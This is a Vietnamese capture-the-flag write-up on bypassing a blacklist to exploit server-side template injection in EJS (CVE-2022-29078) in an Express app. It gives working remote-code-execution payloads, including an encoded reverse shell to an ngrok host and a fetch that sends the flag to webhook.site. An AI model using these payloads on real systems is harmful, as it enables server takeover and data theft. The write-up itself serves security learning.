









# Web/🎓🌎 Express JavaScript Security



`main.js`

```javascript
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');     
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

Trang web này chỉ có một chức năng sử dụng các param để render ra file `greet.ejs`



```ejs
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

Nhưng mà đầu vào đã bị filter bằng một blacklist, nhìn vào blacklist này và phiên bản ejs trong `package.json` thì mình cũng đoán được khả năng cao bài này là lỗi `SSTI in ejs` [CVE-2022-29078](https://github.com/advisories/GHSA-phwq-j96m-2c2q), và mình cần bypass filter này để RCE thực thi file `/readflag` 

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

Trong đó thì `escapseFunction` cũng có thể sử dụng để tạo RCE gadget [EJS@3.1.9 has a server-side template injection vulnerability (Unfixed)](https://github.com/mde/ejs/issues/735)

Và option này cũng có thể thay thế bằng `opts.escape` nên mình có thể thử sử dụng `opts.escape` để bypass blacklist

```javascript
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```





RCE gadget này sẽ hoạt động nếu như giá trị của `opts.client` là `true`

```javascript
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }
```

payload

```
http://localhost:3000/greet?name=abc&font=Arial&fontSize=20&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27calc%27);
```

kết quả



Reverse shell

```
GET /greet?name=abc&font=Arial&fontSize=20&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%30%2e%74%63%70%2e%61%70%2e%6e%67%72%6f%6b%2e%69%6f%2f%31%38%34%34%30%20%30%3e%26%31%22%27);
```

Kết quả:



`Flag: SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}`

Đọc flag bằng cách đọc error message. `cre: jaelkoh`

```
http://ejs.web.seetf.sg:1337/greet?name=`whoami`&font=Arial&fontSize=a&settings[view%20options][escape]=`${process.mainModule.require(%27child_process%27).execSync(%27touch+$`/readflag`%27)}`&settings[view%20options][client]=lol
```



Tạo một hàm mới return nội dung của `/readflag`. `cre: maple3142`

```
curl 'http://ejs.web.seetf.sg:1337/greet' -G --data-urlencode 'settings[view%20options][debug]=true' --data-urlencode 'settings[view%20options][client]=true' --data-urlencode 'settings[view%20options][escape]=(() => {});return process.mainModule.require("child_process").execSync("/readflag").toString()'
```



Sử dụng `fetch` để gửi request lên exploit server. `cre: hulitw`

```
http://ejs.web.seetf.sg:1337/greet?name=a&font=Arial&fontSize=20&settings[view%20options][escape]=JSON.stringify;fetch('https://webhook.site/5a2ad9d5-32af-4793-8748-81697c3bc253?q='%2bprocess.mainModule.require('child_process').execSync('/readflag'));&settings[view%20options][client]=1
```

